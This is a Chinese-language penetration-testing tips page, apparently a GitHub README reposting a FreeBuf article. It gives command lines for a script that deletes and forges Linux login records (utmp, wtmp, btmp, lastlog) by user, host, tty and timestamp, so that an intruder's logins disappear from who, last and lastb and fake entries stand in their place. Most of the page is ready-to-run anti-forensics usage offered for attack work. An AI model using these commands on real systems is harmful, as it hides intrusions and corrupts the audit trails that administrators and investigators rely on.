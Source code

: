 ### 渗透测试TIPS之删除、伪造Linux系统登录日志  
> 来源于https://www.freebuf.com/articles/system/141474.html ，但是原链接失效，故在此处备份  
### 适用于 Linux 系统，[`fake_login_log.py`](https://github.com/Mr-xn/Penetration_Testing_POC/blob/master/ssh/fake_login_log.py) 脚本默认适用于`python2`版本

### 删除日志
1. 删除utmp记录，将自己从w或者who输出中隐藏
python clean --mode delete --type utmp --user root //删除用户为root的用户记录
python clean --mode delete --type utmp --user root --host "58.47.251.255" //删除用户为root且登录来源host为58.47.251.255的用户记录
2. 删除历史登录记录(wtmp)，隐藏last的记录
python clean --mode delete --type wtmp --user root --host "111.30.32.213" //删除用户为root且登录来源host为111.30.32.213的用户记录
3. 删除btmp记录，隐藏lastb的记录，lastb为登录失败的用户记录
python clean --mode delete --type btmp --user root --host "172.16.50.156" //删除用户为root且登录来源host为127.0.0.1的用户记录
4. 删除lastlog记录，不能通过用户删除，只能通过host或者时间
python clean --mode delete --type lastlog --host "172.16.50.1" //删除来源host的用户登录记录
python clean --mode delete --type lastlog --date "2017-8-2 22:46:34" //删除登录时间为2017-8-2 22:46:34的用户登录记录

### 伪造日志
1. 伪造utmp记录，将自己从w或者who输出中伪造
python clean --mode add --type utmp --user nobody --tty "pts/8" --pid 25394 --date "2017-8-2 22:46:34" --host "127.0.0.1" //伪造用户为nobody的用户记录
这里伪造的时间和host可以通过who命令去找到，PID一般伪造bash或者ssh通过`ps -aux | grep ssh/bash`去寻找
2. 伪造历史登录记录(wtmp)，伪造last的记录
python clean --mode add  --type wtmp --user root --tty "pts/7" --date "2017-8-2 00:06:34" --host "127.0.0.1"
3. 伪造btmp记录，伪造lastb的记录，lastb为登录失败的用户记录
python clean --mode add  --type btmp --user root --tty "pts/7" --date "2017-8-2 00:06:34" --host "127.0.0.1" //伪造用户为root且登录来源host为127.0.0.1的用户登录失败记录
4. 伪造lastlog记录
python clean --mode add --type=lastlog --user=rootclay --date="2017-7-24 14:22:07" --tty "pts/2" --host "127.0.0.1" //伪造用户为rootclay 时间2017-7-24 14:22:07 来源登录ip为127.0.0.1的用户登录记录
